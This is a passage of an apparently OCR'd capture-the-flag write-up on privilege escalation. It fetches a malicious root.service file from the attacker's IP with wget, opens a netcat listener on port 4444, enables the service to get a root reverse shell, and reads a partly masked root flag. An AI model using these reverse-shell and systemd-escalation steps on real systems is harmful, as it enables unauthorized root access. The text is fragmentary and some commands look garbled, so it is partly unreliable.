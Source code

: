     wget http://<your ip address>root.service (on the webserver bash instance) 
    
Listen for any connections by the reverse shell service on port 4444
    
    nc -nlvp 4444 
    
Enable the service on the bash instance
    
    systemctl enable root.service 
    system enable root 
    
You should get a reverse shell on your netcat session as the root user 
    cd /root 
    cat root.txt 
   
    
    Answer: a58ff8579f0a9*******33a9966c7fd5
   
    
    
    

    
    
    

    
    
   
    
   
    




    




